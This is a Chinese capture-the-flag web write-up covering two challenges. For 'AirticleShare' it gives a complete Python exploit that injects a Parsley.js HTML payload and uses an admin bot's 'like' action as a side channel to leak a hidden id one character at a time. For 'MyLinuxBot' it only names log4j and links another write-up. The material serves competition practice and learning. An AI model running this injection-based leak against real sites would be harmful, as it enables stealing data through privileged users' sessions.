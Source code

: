 ## Web

#### 前言

两道都是原题，原题给了源码，这里却不给，体验感不好。

### AirticleShare

找到基本一样的原题

https://blog.csdn.net/keyball123/article/details/104508815

修改一下Payload

```python
import requests
import time
import sys

def main(host, port):
    s = requests.Session()
    base_url = f"http://{host}:{port}/"
    res = s.get(base_url)
    pos = res.text.find('name="c" value="') + len('name="c" value="')
    csrftoken = res.text[pos:pos+16]

    ss = "0123456789abcdef"
    flag = ""

    for i in range(16):
        for j in ss:
            print("trying",j)
            payload = f'''<form data-parsley-validate>
                      <input data-parsley-required
                      data-parsley-trigger=\"blur\"
                      data-parsley-error-message=\"<input type=button id=like>\"
                      data-parsley-errors-container=\'a[href^=\"/lookup.php?id={flag + j}\"]\'
                      autofocus>
                      </form>'''
            data = {'c': csrftoken, 'content': payload}
            res = s.post(base_url + "add.php", data=data, allow_redirects=False)
            location = res.headers['Location']
            pos = location.find('id=') + 3
            wp = location[pos:]
            data = {'c': csrftoken, 'id': wp}
            res = s.post(base_url + "admin.php", data=data)
            time.sleep(4)

            # 测试发现我PC上需要重复请求多次才能知道是否admin成功点赞，有点小坑
            s.get(f"http://{host}:{port}/lookup.php?id={wp}")
            s.get(f"http://{host}:{port}/lookup.php?id={wp}")
            res = s.get(f"http://{host}:{port}/lookup.php?id={wp}")
            txt = res.text.replace("\n", "").replace("\r", "")
            if "Liked by</h3>admin" not in txt:
                flag += j
                print(i,flag)
                break

if __name__ == '__main__':
    main(sys.argv[1], sys.argv[2])
```

### MyLinuxBot

说了java和日志，那基本就是log4j了

搜索也找到基本一样的原题

https://sigflag.at/blog/2022/writeup-googlectf2022-log4j/

![img](./images/20231018_0003023939.png)